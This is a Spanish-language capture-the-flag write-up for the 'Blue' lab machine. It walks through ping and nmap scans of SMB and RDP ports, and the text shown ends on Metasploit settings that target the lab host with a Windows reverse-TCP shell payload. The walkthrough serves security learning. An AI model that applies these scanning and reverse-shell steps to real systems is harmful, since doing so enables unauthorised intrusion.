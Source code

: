 ```yaml
---
description: '✍️ Autor: DarkStar7471, ben🔍 Dificultad: Fácil'
---
```


# Blue

### 🔍 **RECONOCIMIENTO**

En primer lugar, tras conectarnos a la máquina, utilizamos el comando:

```bash
ping -c 1 10.10.196.186
```

para verificar la conectividad de red.

<figure><img src="../../.gitbook/assets/image (758).png" alt=""><figcaption></figcaption></figure>

A continuación, se realiza el comando:

```bash
nmap 10.10.196.186
```

para realizar un escaneo de puertos y servicios detallado en la dirección IP.

<figure><img src="../../.gitbook/assets/image (759).png" alt=""><figcaption></figcaption></figure>

### 🔎 **EXPLORACIÓN**

Se utiliza el comando:

```bash
sudo nmap -sCV -p135,139,445,3389 -v 10.10.196.186
```

para obtener más información sobre esos puertos específicamente.

<figure><img src="../../.gitbook/assets/image (760).png" alt=""><figcaption></figcaption></figure>

Miramos si es vulnerable el puerto 445.

<figure><img src="../../.gitbook/assets/image (761).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (762).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (763).png" alt=""><figcaption></figcaption></figure>

```bash
set RHOSTS 10.10.196.186
set payload windows/x64/shell/reverse_tcp
```
